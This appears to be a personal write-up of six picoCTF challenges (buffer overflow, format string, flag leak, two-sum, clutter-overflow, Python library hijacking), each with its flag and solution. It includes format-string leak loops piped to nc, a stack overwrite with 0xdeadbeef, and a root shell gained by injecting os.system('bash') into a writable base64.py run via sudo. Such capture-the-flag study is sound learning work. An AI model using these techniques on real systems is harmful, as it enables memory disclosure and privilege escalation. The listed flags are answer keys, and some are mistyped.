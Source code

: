 # buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}`

We know it's a buffer overflow, so typing long enough strings _should_ work.
And it does ! but why ?

All you really need to look at is here:

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

The `sigsegv_handler` function is called when a segmentation fault occurs. A bit of googling reveals that
it the ``strcpy`` can cause the sigsev (writing outta bounds). So we just input a string b/w (16,100) and make it overflow.

# format string 0

**Flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}`

Didn't even download the binary - reading the title, you can assume that
they _will_ be having raw printfs() without format strings. Choose the options that have a fstring embedded within them
and you get the flag. The segfault is due to trying to parse non string bytes as bytes, of course.

# Flag leak

**Flag:** `picCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}`

again, easily assume it is an fstrings issue, again.

After verifing with %s, I started smashing %s in hopes that I could leak the stack directly.
This obviously didn't work

After some talking with chatgpt, I learned about stack offsets and cooked up a small script myself to attack the stack -
```zsh
for i in {1..29}; do echo %"$i"\$s | nc saturn.picoctf.net 53300
done
```
which gave me
```
Tell me a story and then I'll tell you one >> Here's a story -
CTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}
```

missed the pico part as it probably wasn't properly aligned. What do you do if part of the flag was stuck there ?

No real clue, but $i%x is probably the way, if I had to guess.

# two-sum

**Flag:** `picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_482d8fc4}`

Another cheesy challenge really, but here you go -
The chall asks for n1 > n1 + n2 - obviously n1 must overflow.
Find out that a c int uses 4 bytes and calculate approximate overflow values -
2147483647 2

and type it in and get the flag

# clutter-overflow

**Flag:** `picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}`

So we have access to a server via netcat:

```
> nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|

| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
```

We _do_ have acess to the source code, but we will be doing it blind here.

(At least I did it blind :P - do whatever you wish)

lets try some random input:
```
...
What do you see?
pizzas ?
code == 0x0
code != 0xdeadbeef :(
```

Not pizzas, it seems. Sad.

Anyways, looking at the `code` that it talks about, it's probbaly a value on the stack. Lets find out how much we need to
jump manually via some binary search.

`0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef1111`
is that magic string for us. anything over that modifies the `code` int. write it into a file, say called eep.

Now to reproduce the 0xdeadbeef string. Commonly used as a magic value, this should be easy right ?

Well, nope. The main gotcha comes in the fact that while uints on a device is generally in lil endian, and strings are not.
So just pulling up your favorite hex editor and screaming `DEADBEEF` will not do the trick. What you can do is either manually
covert it into `EFBEADDE`, it's compliment or do a quick c sinppet:

```c
#include <stdio.h>

int main() {
	unsigned int value = 0xDEADBEEF;

	// Cast the integer to a char pointer to access da bytes
	unsigned char *bytes = (unsigned char *)&value;

	for (int i = 0; i < sizeof(value); i++) {
		printf("%c", bytes[i]);
	}
}
```

which gives you the same thing. The output is `ﾭ�` if you are curious. Write that to a file, say weep.

Now we do -
```zsh
(cat ./eep; cat ./weep; echo "" ) | nc mars.picoctf.net 31890
```

and get a beautiful -
```
...
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

This one is easy to make mistakes on, took me a few hours really. Has a lil less than 4k solves.

# hijacking

**Flag:** `picoCTF{picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}`

We have a server with ssh access. yay !

`kitten ssh picoctf@saturn.picoctf.net -p 64142`

Hm, snoop around for a bit and it seems like a very standard ubuntu setup. With the lack of stuff like curl and ping though.
Before going nuclear with linpeas or so, the desciption talks about a python server file, which `ls -lah` promptly reveals.
The file is owned by root too.

Now we have a look at it -
```py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

Weird stuff. dosent look like what it actually does is anything relavant though.
Well, it's owned by root. Can we execute it as root ?

```sh
picoctf@challenge:~$ sudo python3 ~/.server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

(You can either guesswork the exact string that sudo's filters allow, or use sudo -l btw). Anyways. I see a distict
lack of a ping command. PATH manipulation ?

```sh
....(after some work)
picoctf@challenge:~$ sudo -E python3 ~/.server.py
sudo: sorry, you are not allowed to preserve the environment
```

Oh well. so we have to directly attack the modules. snoop around `/usr/lib/python3.8` and we find a r/w accessable base64.py.
Add some commands -

```py
import os
print('Hello World!')
os.system('whoami')
os.system('bash')
...
```

now snoop around a bit and find the file at /root/.flag.txt !
